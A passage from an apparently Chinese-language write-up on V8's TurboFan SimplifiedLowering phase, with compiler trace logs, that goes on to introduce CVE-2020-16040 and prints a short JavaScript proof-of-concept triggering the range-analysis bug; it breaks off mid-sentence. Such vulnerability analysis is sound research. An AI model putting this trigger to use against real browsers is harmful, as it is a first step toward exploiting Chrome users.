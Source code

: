 ### RunLowerPhase

根据之前设定好的 `feedback_type_` 决定每个结点应该如何优化。例如在 ReType phase 阶段，我们能够得到几行特殊的 log：

```shell
#27:Phi[kRepTagged](#24:NumberConstant, #26:NumberConstant, #25:Merge)  [Static type: Range(5, 10)]

 visit #30: NumberConstant
  ==> output kRepTaggedSigned

#31:SpeculativeSafeIntegerAdd[SignedSmall](#27:Phi, #30:NumberConstant, #17:SpeculativeNumberEqual, #25:Merge)  [Static type: Range(6, 11)]
```

我们对照 Lower phase 打印出来的 Log，跟踪这几个被标记出来的结点：

```shell
--{Lower phase}--
 visit #27: Phi
  change: #27:Phi(@0 #24:NumberConstant) from kRepTaggedSigned to kRepWord32:truncate-to-word32
  change: #27:Phi(@1 #26:NumberConstant) from kRepTaggedSigned to kRepWord32:truncate-to-word32
 visit #30: NumberConstant
defer replacement #30:NumberConstant with #49:Int64Constant
 visit #31: SpeculativeSafeIntegerAdd
  change: #31:SpeculativeSafeIntegerAdd(@1 #30:NumberConstant) from kRepTaggedSigned to kRepWord32:truncate-to-word32
```

27 号 Phi 结点标记出了 24 和 26 号结点，将 truncation 传播到这两个结点，使得其被优化为 `Int32Constant` ，而 `kRepTaggedSigned` 则让 30 号被替换为 `Int64Constant` ，31 号结点也是如此。

## 实例 CVE-2020-16040

大致过了一遍 TypedLoweringPhase 和 SimplifiedLoweringPhase 以后，接下来来看看具体是什么样的情况下有可能让这个优化过程出现漏洞。

首先给出 POC：

```js
function foo(a) {  
  var y = 0x7fffffff;  
  if (a == NaN) y = NaN;
  if (a) y = -1;
  let z = (y + 1) | 0;  
  console.log(z.toString(16));
  return z < 0;  
}  
%PrepareFunctionForOptimization(foo);  
foo(true);  
%OptimizeFunctionOnNextCall(foo);  
print(foo(false));
```

> 只执行 true 分支的目的是防止其通过执行信息获取到 false 分支的实际情况，这样在预测 Range 时从有可能出现错误

如果直接执行，会打印出如下内容：
